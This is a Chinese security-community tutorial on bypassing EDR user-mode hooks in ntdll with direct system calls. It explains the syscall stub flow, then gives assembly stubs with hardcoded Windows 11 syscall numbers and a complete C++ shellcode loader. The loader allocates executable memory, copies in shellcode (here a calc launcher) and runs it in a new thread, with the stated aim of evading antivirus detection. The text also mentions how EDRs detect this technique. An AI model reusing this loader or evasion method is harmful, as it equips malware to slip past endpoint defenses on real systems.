# 重写ring3 API函数-先知社区

> **来源**: https://xz.aliyun.com/news/17323  
> **文章ID**: 17323

---

# 一、用户态 `Zw*` 或 `Nt*` 类型的API

## 1.1 系统调用介绍

​

本节涉及到系统调用的相关知识，在这里我只是浅浅地介绍一下什么是系统调用。

系统调用（System Call）是操作系统提供给应用程序与内核交互的核心接口，允许用户程序请求内核执行特权操作，它是用户态和内核态之间的桥梁。在免杀领域中，只要你是通过syscall指令进入内核态执行特权操作都可以称为系统调用。

​

在Windows操作系统中，假设我们使用了 `ZwAllocateVirtualMemory` 这个 `Zw*` 类型的API，它就会从用户态转变为内核态，在内核态由操作系统真正的执行特权操作。

ZwAllocateVirtualMemory是一个处于ring3到ring0的API，其本质而言还是ring3的API，但自身不执行内核特权操作。这类API有一个特点就是通过syscall这个指令进入到内核态，然后操作系统根据SSN（**系统调用号**）从SSDT（**系统服务描述表**），找到ntoskrnl.exe中对应的 `Nt*` 函数地址并执行特权操作。



这些函数的 ntdll（用户模式）版本只是执行系统调用来调用其内核模式对应函数，这就是为什么它们经常被称为**系统调用存根（syscall stub）**。

## 1.2 EDR和用户模式钩子

​

以前，安全产品通过挂钩 SSDT 从内核内部监控用户模式调用。自 2005 年微软推出内核补丁保护（又称 PatchGuard）以来，许多对内核的修改现在都被阻止了，因此许多 EDR 钩子转向挂钩 ntdll。

​

EDR 使用 `jmp` 指令覆盖 `ntdll.dll` 中目标函数（如 `NtOpenProcess`）的前 5 字节，将执行流重定向到自身 DLL（每个进程都会加载）。在 EDR 的代码中检查参数（如目标进程 PID、内存地址合法性）及返回地址（是否来自可疑模块）。执行原始指令（被覆盖的 5 字节），跳转回 `ntdll.dll` 继续执行后续代码。

比如说未安装bitdefender前



​

安装bitdefender后



本节的 `重写ring3 API函数` 是利用直接系统调用绕过AV/EDR的在ntdll上的用户态钩子，达到免杀效果。说实话，国内主流的杀毒软件是没有用户态Hook，比如说360、火绒、Defender，甚至是国外的卡巴斯基（非EDR）在几年前就取消了用户态Hook，所以说对于这些AV而言用此项防御规避技术确实有点小题大作，只有面对EDR和AV中的王者BitDefender，此项技术才能大展身手。

​

直接系统调用也并非是万能的手段，如果恶意软件使用了这项技术，那么从 EDR的角度来看，这将成为一个明确的妥协指标（IOC），EDR可以通过Windows 事件跟踪（ETW）分析应用程序中的线程调用堆栈的合理性来判断程序是否为恶意软件。

​

偷来的图



​

为了规避EDR分析线程调用堆栈，使得调用栈看起来更合法，攻击方采取了间接系统调用，本节不会详细介绍，感兴趣的读者阅读，可以期待一下我的 `系统调用` 这一小节的知识点。

## 1.3 流程分析

ZwAllocateVirtualMemory的执行流程可以看下图



1. **参数传递与寄存器准备**

```
mov r10, rcx ; 将第一个参数从rcx移至r10
```

在 x64 系统调用约定中，前 4 个参数通过 `rcx`, `rdx`, `r8`, `r9` 传递。但 `syscall` 指令执行时会将返回地址覆盖 `rcx`，因此需先将 `rcx` 的值保存到 `r10` 寄存器中

1. **设置系统调用号SSN**

```
mov eax, 18h ; 系统调用号（SSN）为0x18（NtAllocateVirtualMemory）
```

不同版本的操作系统需要动态适配

1. **检测系统调用方式**

```
test byte ptr ds:7FFE0308h, 1 ; 检查快速系统调用（syscall）是否启用 
jnz short loc_18009FC55 ; 若支持则跳转至syscall，否则使用int 2Eh
```

* **地址**`7FFE0308h`：属于 `KUSER_SHARED_DATA` 结构，其最低位指示系统调用方式：

* **0**：使用 `syscall` 指令（现代 CPU）。
* **1**：使用 `int 2Eh` 中断（旧系统兼容模式）。

我们需要模仿 `Zw*` 类型的API的汇编写法，然后自己创建汇编文件，通过汇编指令完成上述操作，因为我们使用的是直接系统调用，所以第三步是不需要的。直接替换为下面的两天汇编指令即可

```
syscall                 ; Low latency system call
retn
```

这类给出一个直接系统调用的模板

```
.code
NtAllocateVirtualMemoryProc proc
            mov r10, rcx
            mov eax, 18h
            syscall
            ret
NtAllocateVirtualMemoryProc endp
end
```

使用这个模块进行系统调用时，最大的难题就是如何找到相应API的SSN。最常见的办法就是通过IDA、Windbg、X32/64dbg查看汇编代码，还有其他的方法在这里我先不多少，在 `系统调用` 篇章中详细说明。

​

随便附加一个进程，然后去"符号"界面找到ntdll里面的导出函数



点击导出函数会跳转到相应的汇编代码的地址处，这样就可以看到系统调用号啦



# 二、环境配置

​

右键项目，点击“生成依赖性->生成自定义”



​

勾选masm，然后确定。



​

在项目中添加\*.asm后缀的文件



​

对刚刚添加的asm文件，点击属性，然后将“项类型”中选择“自定义生成工具”，然后点确定。



​

再次右键asm文件属性, 配置属性“自定义生成工具->常规” ：

1. 在“命令行”中写入: `ml64 /c %(fileName).asm`
2. 在“输出”：`%(fileName).obj`，这样编译器就可以正常连接我们的文件了。



# 三、完整代码

需要用到的API和系统调用号如下

1. ZwCreateThreadEx：0xC7
2. ZwAllocateVirtualMemory：0x18

⚠注意：示例代码仅适用于Windows 11，其他系统需调整SSN。

​

asm代码如下

```
.code
NtAllocateVirtualMemoryProc proc
            mov r10, rcx
            mov eax, 18h
            syscall
            ret
NtAllocateVirtualMemoryProc endp

NtCreateThreadExProc proc
            mov r10, rcx
            mov eax, 0C7h
            syscall
            ret
NtCreateThreadExProc endp
end
```

​

C++代码如下

```
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>
typedef LONG NTSTATUS;
EXTERN_C NTSTATUS NTAPI NtAllocateVirtualMemoryProc(HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect);
typedef NTSTATUS(NTAPI* MyNtAllocateVirtualMemory)(HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect);

EXTERN_C NTSTATUS NTAPI NtCreateThreadExProc(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    HANDLE ProcessHandle,
    PTHREAD_START_ROUTINE StartRoutine,
    PVOID StartContext,
    ULONG CreateThreadFlags,
    SIZE_T ZeroBits OPTIONAL,
    SIZE_T StackSize OPTIONAL,
    SIZE_T MaximumStackSize OPTIONAL,
    PPROC_THREAD_ATTRIBUTE_LIST AttributeList
);

typedef NTSTATUS(NTAPI* MyNtCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    HANDLE ProcessHandle,
    PTHREAD_START_ROUTINE StartRoutine,
    PVOID StartContext,
    ULONG CreateThreadFlags,
    SIZE_T ZeroBits OPTIONAL,
    SIZE_T StackSize OPTIONAL,
    SIZE_T MaximumStackSize OPTIONAL,
    PPROC_THREAD_ATTRIBUTE_LIST AttributeList
    );

int main() {

    //calc shellcode
    unsigned char shellcode[] = {
    0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A,
0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC,
0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B,
0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B,
0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C,
0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F,
0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E,
0x5B, 0x5A, 0x59, 0x58, 0xC3
    };

    // 获取自定义系统调用存根的地址
    MyNtAllocateVirtualMemory pNtAllocateVirtualMemory = &NtAllocateVirtualMemoryProc;
    MyNtCreateThreadEx pNtCreateThreadEx = &NtCreateThreadExProc;

    // 申请一块大小为buf字节数组长度的可读可行的内存区域
    SIZE_T uSize = sizeof(shellcode);
    LPVOID Address = NULL;
    HANDLE hProcess = GetCurrentProcess();
    NTSTATUS status = pNtAllocateVirtualMemory(hProcess, &Address, 0, &uSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (status != 0)return FALSE;

    // 将buf数组中的内容复制到刚刚分配的内存区域
    RtlMoveMemory(Address, shellcode, sizeof(shellcode));

    // 创建一个线程执行内存中的代码
    HANDLE hThread = NULL;
    status = pNtCreateThreadEx(&hThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)Address, NULL, 0, 0, 0, 0, NULL);
    if (NULL == hThread) {
        printf("status:%u", status);
        return FALSE;
    }

    // 等待执行完成
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```



这样重写ring3 API函数的任务就算完成了，剩下的免杀测试就看读者的自由发挥了。

​

说实话，单用本节的技术达到的免杀效果不怎么样，究其原因是

1. 直接使用`syscall`可能被高级EDR标记为异常行为
2. 函数调用栈异常，容易被检测

这些问题等到 `系统调用` 章节时会进行优化，并且更进一步的去探究如何动态获取系统调用号而不是硬编码在代码中。

​

​

# 参考资料

1. [API函数的调用过程(三环到零环)以及重写WriteProcessMemory三环 - zpchcbd - 博客园](https://www.cnblogs.com/zpchcbd/p/15961380.html)
2. [通过重写ring3 API函数实现免杀 | idiotc4t's blog](https://idiotc4t.com/defense-evasion/overwrite-winapi-bypassav)
3. [通过重写ring3 API函数规避动态查杀现在我们通过Process Monitor来观察一下Windows Api的调 - 掘金](https://juejin.cn/post/6844904000257523719)
4. [Windows系统调用中API的3环部分(依据分析重写ReadProcessMemory函数) - OneTrainee - 博客园](https://www.cnblogs.com/onetrainee/p/11704626.html)
5. [VS2017编写c/c++汇编函数并调用 - Avs阿鱼 - 博客园](https://www.cnblogs.com/ArfAyu/p/12364414.html)
6. [绕过用户模式EDR Hook原理及思路](https://mp.weixin.qq.com/s/YCmung3nWPMDtsZHfTsc4A)
